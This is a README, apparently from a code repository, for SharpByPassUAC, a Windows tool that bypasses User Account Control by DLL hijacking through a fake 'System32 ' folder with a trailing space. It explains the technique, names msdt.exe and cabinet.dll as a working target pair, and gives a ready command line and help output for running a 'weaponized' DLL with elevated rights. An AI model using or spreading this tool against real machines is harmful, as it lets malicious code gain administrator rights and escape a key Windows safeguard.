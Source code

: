 # SharpByPassUAC

Tool to leverage a famous UAC bypass and execute the code located inside a DLL.

The tool leverages DLL hijacking vulnerabilities of Microsoft executables located into `C:\Windows\System32\`. It leverages the fact that it is possible to create a folder containing a space like `C:\Windows\System32 \` (note de space after `System32`). When Microsoft executable look for missing DLL, they will it our created folder before `System32` and then having our custom DLL loaded. 

If it is weaponized, the code inside will be executed. 

Custom DLL can be created will [SharpDLLProxy](https://github.com/HopHouse/SharpDLLProxy) in order to be directly used.

## Example
The executable `msdt.exe` is prone to a DLL Hijacking vulnerability with the DLL `cabinet.dll`

```
C:\> SharpByPassUAC.exe --binary C:\\Windows\\System32\\msdt.exe --dll  C:\\Users\\administrator\\Desktop\\cabinet.dll
```

## Help
```
SharpByPassUAC 1.0.0
Copyright (C) 2021 SharpByPassUAC

  --dll        Required. Input dll file to be processed.

  --binary     Required. Binary file to execute in order to trigger the UAC bypass.

  --help       Display this help screen.

  --version    Display version information.
```